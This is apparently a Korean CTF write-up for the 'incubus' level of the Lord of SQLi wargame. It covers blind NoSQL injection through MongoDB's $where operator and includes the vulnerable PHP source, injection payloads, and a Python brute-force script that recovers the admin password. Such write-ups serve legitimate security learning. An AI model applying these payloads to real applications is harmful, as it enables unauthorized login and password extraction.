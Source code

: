 ```yaml
---
title : "LOS Lv.48 incubus"
excerpt : "$where, js injection, Blind NOSQL Injection"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```


## incubus
```php
query : {"$where":"function(){return obj.id==''&&obj.pw=='';}"}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

## Solution
```
$where : JavaScript 표현식에 만족하는 documents를 조회
```
online tool : <a href="https://mongoplayground.net/" target="_blank">https://mongoplayground.net/</a>  
아래처럼 설정하고 테스트 함.
```
[
  {
    "id": "admin",
    "pw": "admin@secret"
  },
  {
    "id": "guest",
    "pw": "guest@secret"
  }
]
```
먼저 아이디, 비밀번호 입력해주면 잘 나옴.
```
db.collection.find({
  "$where": "function(){return obj.id=='admin'&&obj.pw=='admin@secret';}"
})
```
```
[
  {
    "_id": ObjectId("5a934e000102030405000000"),
    "id": "admin",
    "pw": "admin@secret"
  }
]
```
이제 비밀번호를 모르는 상황에서 로그인 하려면 아래와 같음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin';}"
})
```
이제 실제 사이트에서 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin
```
이제 문제에서 요구하는 비밀번호를 알아내야 함. 
먼저 비밀번호 길이를 알아낼꺼임. 
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw.length>'1';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw.length>'1
?pw='||obj.id=='admin'%26%26obj.pw.length=='8

비밀번호 길이는 8임.
```
비밀번호 값을 알아내야 하는데 '('가 필터링 되어 있어서 js String methods 사용 불가.  
근데 obj.pw는 string이므로 배열형태로 값을 알아낼 수 있음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw[0]=='a';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw[0]>'0
?pw='||obj.id=='admin'%26%26obj.pw[0]=='b

-> pw 첫 글자는 b라는 걸 알아냄! 이제 Blind NOSQLi를 하면 됨.
```
```python
import requests
import string

url='https://los.rubiya.kr/chall/incubus_3dff9ce783c9f574edf015a7b99450d7.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

check="0123456789"+string.ascii_lowercase
pw=''

for i in range(0,9) :
    for j in check :
        payload={'pw' : "'||obj.id=='admin'&&obj.pw["+str(i)+"]=='"+j}
        res=requests.get(url, headers=headers, params=payload, cookies=cookies)
        if "<h2>Hello admin</h2>" in res.text:
            pw+=j
            print("pw : "+pw)  # b47822ea
            break
             
print("INCUBUS Clear!")
```

![](/assets/images/rubiya_rank.png){: .align-center}
.. 나중에 풀이 본거 다시 풀어보기!!